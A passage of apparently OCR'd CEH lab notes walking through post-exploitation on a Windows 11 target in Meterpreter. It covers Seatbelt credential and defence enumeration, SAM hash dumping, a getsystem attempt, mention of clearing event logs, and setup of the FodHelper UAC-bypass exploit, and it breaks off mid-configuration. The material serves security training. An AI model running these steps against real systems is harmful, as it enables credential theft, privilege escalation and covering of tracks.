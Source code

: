      The Windows shares on 10.10.1.11 window appears; double-click the CEH-Tools folder. 

    CEH-Tools folder appears, navigate to CEHv12 Module 06 System Hacking\Github Tools and copy Seatbelt.exe file. Paste the copied file onto Desktop. 

    Terminal type: upload /home/attacker/Desktop/Seatbelt.exe 

    Type : shell 

    Type: Seatbelt.exe -group=system ( to gather information about AMSIProviders, AntiVirus, AppLocker etc.) 

    Type: Seatbelt.exe -group=user (to gather information about ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys etc.) 

    Type: Seatbelt.exe -group=misc ( to gather information about ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.) 

    Apart we can use 

 
https://labondemand.blob.core.windows.net/content/lab117714/2022-04-11_16-32-15.jpg

 

    In terminal type : exit ( to return to meterpreter session) 

    Another method for performing privilege escalation is to bypass the user account control setting (security configuration) using an exploit, and then to escalate the privileges using the Named Pipe Impersonation technique. 

    Now, let us check our current system privileges by executing the : run post/windows/gather/smart_hashdump command. ( You will not be able to execute commands (such as hashdump, which dumps the user account hashes located in the SAM file, or clearev, which clears the event logs remotely) that require administrative or root privileges.) 

    The command fails to dump the hashes from the SAM file located on the Windows 11 machine and returns an error stating Insufficient privileges to dump hashes! 

    Type : getsystem -t 1 (Uses the service – Named Pipe Impersonation (In Memory/Admin) Technique.) 

    It will fail 

    From the result, it is evident that the security configuration of the Windows 11 machine is blocking you from gaining unrestricted access to it. 

    Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine. 

In this task, we will bypass Windows UAC protection via the FodHelper Registry Key. It is present in Metasploit as a bypassuac_fodhelper exploit. 

    In meterpreter : background 

    type: use exploit/windows/local/bypassuac_fodhelper 

    Here, you need to configure the exploit. To know which options you need to configure in the exploit, type show options and press Enter. The Module options section appears, displaying the requirement for the exploit. Observe that the SESSION option is required, but the Current Setting is empty. 

    Type: set SESSION 1 
